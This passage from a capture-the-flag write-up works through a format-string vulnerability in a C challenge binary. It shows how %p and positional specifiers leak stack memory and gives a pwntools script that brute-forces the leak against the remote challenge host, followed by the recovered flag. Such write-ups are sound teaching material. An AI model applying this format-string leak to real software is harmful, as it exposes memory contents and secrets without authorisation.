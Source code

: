 So the application is interpreting our input as a formatter, and thus attempting to access a string at an invalid location and crashing, so let's test out some other formatters listed [here](https://www.geeksforgeeks.org/format-specifiers-in-c/)

Something interesting happens when we pass the `%p` format specifier, which prints the address of which a pointer points to on the stack, like we see here.

![Alt text](Images/20230614013224.png)
But.. our input is limited to 16 bytes, we'll need to find a way to bypass that somehow.

### 3.D: POC

So now we have a way to leak values off the stack, we need to find a way to bruteforce leaks without the input getting obnoxiously long.

Luckily for us, we can pass it using this format, %{int}${formatter}
So if we do `%1$p`, it will print the first value, and `%2$p` will print the second...etc
Now we can write a bruteforce script to leak the values until we find the flag.

Note: I actually lost my script for this challenge, so below is the official writeup script from @hmmm, the official challenge author.


```python
from pwn import *

#p = process("./chall")
p = remote("cat.hsctf.com", 1337)
b = bytearray()
for i in range(1, 20):
	p.sendline(f"%{i}$p".encode())
	try:
		b += p32(int(p.recvline(), 16))
	except ValueError:
		pass
print(b[b.index(b"flag{"):b.index(b"}") + 1].decode())

### flag{cats_go_meow}

```

### 3.E: Mitigation
